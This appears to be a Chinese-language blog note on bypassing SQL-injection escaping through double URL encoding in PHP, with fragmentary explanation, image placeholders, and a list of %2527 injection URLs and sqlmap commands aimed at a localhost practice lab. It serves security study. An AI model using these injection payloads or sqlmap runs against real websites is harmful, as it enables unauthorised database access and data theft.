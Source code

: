 ```yaml
---
layout: post
title: "1.4.2-SQL注入防御绕过-二次编码注入"
date: 2018-07-06
category: web安全
tags: sql注入
---
```


## 01 二次编码注入原理

+，=，&，；  
原始数据不适合传输  

	index.php?id=1&name=admin&pwd=123

	name=admin=
	name=admin&

	admin=

	php urldecode('%3d') --> =

	// 如果这样的参数会引起歧义

php会自动解码  

二次编码注入：  
urldecode()与PHP本身处理编码时，两者配合失误，可构造数据消灭\  

![]({{site.img_link}}/10/01.png)
![]({{site.img_link}}/10/02.png)




## 02 二次编码注入方法

![]({{site.img_link}}/10/03.png)

![]({{site.img_link}}/10/04.png)


	http://127.0.0.1/Less-1/double.php?id=1%2527 // 测试注入点
	http://127.0.0.1/Less-1/double.php?id=1%2527%20order%20by%203 //测试长度
	http://127.0.0.1/Less-1/double.php?id=1%27 order by 4--+
	http://127.0.0.1/


	sqlmap:
	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%25"

	sqlmap -u "http://127.0.0.1/Less-1/double.php?id=1%2527" --current--+

![]({{site.img_link}}/10/05.png)

